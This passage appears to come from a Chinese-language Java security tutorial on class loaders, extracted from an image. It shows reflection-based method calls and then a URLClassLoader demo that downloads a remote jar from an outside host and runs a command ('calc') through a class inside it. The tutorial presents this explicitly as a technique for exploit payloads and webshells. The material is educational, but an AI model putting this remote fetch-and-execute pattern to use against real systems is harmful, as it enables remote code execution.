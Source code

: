 ```java
        TestClassLoader loader = new TestClassLoader();

        try{
            //使用自定义的类加载器”loader“中的loadClass加载TestHelloWorld类到testClass变量
            Class testClass = loader.loadClass(testClassName);

            //反射创建TestHelloWorld类，等价于”TestHelloWorld t = new TestHelloWorld();“
            Object testInstance = testClass.newInstance();

            //反射获取hello方法
            Method method = testInstance.getClass().getMethod("hello");

            //反射调用hello方法，等价于”String str = t.hello();“
            String str = (String) method.invoke(testInstance);

            System.out.println(str);

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

### URLClassLoader

`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。

**URLClassLoader调用远程方法实例：**

```java
package com.y5neko.sec.classloader;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;
public class TestURLClassLoader {
    public static void main(String[] args) {
        try {
            //定义远程jar包路径
            URL url = new URL("https://www.ysneko.com/CMD.jar");
            System.out.println(url);

            //创建URLClassLoader对象，并加载远程jar包
            URLClassLoader ucl = new URLClassLoader(new URL[] {url});
            System.out.println(ucl);

            String cmd = "calc";

            //通过URLClassLoader加载远程jar包中的CMD类
            Class<?> cmdClass = ucl.loadClass("CMD");

            //调用CMD类中的exec方法，等同于“Process process = CMD.exec(cmd);”
            Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null,cmd);

            //获取命令执行结果的输入流
            InputStream in = process.getInputStream();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int a = -1;

            // 读取命令执行结果
```